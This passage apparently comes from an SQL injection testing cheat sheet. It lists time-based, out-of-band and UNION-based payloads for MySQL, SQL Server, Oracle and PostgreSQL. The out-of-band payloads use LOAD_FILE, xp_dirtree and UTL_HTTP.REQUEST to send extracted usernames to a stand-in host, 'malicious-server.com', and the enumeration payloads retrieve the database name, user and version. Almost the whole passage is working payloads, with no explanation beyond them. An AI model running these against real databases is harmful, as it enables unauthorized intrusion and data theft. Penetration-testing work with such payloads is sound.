     - PostgreSQL:
        
        ```
        ' AND (SELECT pg_sleep(5)) --
        ```
        

#### 2.5 Out-of-Band SQLi Testing

- Use database features that can make external connections:
    - MySQL:
        
        ```
        ' AND LOAD_FILE(CONCAT('\\\\',IF((SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a','malicious-server.com\\a','malicious-server.com\\b'))) --
        ```
        
    - SQL Server:
        
        ```
        ' IF (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' EXEC master..xp_dirtree '\\malicious-server.com\a' --
        ```
        
    - Oracle:
        
        ```
        ' AND UTL_HTTP.REQUEST('http://malicious-server.com/'||(SELECT username FROM users WHERE rownum=1)) --
        ```
        

### 3. Database Schema Enumeration

#### 3.1 Database Information Retrieval

- Extract database metadata:
    - MySQL:
        
        ```
        ' UNION SELECT null, database() --' UNION SELECT null, user() --' UNION SELECT null, version() --
        ```
        
    - SQL Server:
        
        ```
        ' UNION SELECT null, DB_NAME() --' UNION SELECT null, SYSTEM_USER --' UNION SELECT null, @@VERSION --
        ```
        
    - Oracle:
        
        ```
        ' UNION SELECT null, SYS.DATABASE_NAME FROM DUAL --' UNION SELECT null, USER FROM DUAL --
        ```
        
    - PostgreSQL:
        
        ```
        ' UNION SELECT null, current_database() --' UNION SELECT null, current_user --' UNION SELECT null, version() --
        ```
        